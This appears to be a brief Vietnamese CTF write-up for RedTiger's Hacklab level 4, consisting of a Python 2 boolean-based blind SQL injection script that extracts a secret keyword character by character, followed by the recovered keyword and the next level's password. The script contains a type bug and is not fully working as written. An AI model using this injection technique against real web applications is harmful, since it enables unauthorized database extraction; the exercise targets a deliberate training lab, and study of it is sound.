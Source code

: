 đọc lỗi này ở:
http://voice0fblackhat.blogspot.com/2012/01/detailed-boolean-based-blind-injection.html

```sh
import urllib2
import re
headers1 = {'Cookie': 'level4login=there_is_no_bug'}
url1="http://redtiger.labs.overthewire.org/level4.php?id=1%20and%20ascii(substring((SELECT%20keyword%20FROM%20level4_secret)"
ketqua=''
for i in range(1,27):
	for j in range(1,127):		
		url=url1+',%d,1))=%d'%(i,j)
		line=urllib2.Request(url=url,headers=headers1)
		line2=urllib2.urlopen(line).read()
		if "1 rows" in line2:
			ketqua=ketqua+j
			print j
			break
print ketqua
```
keyword: `killstickswithbr1cks!`

The password for the next level is: `there_is_a_truck` 
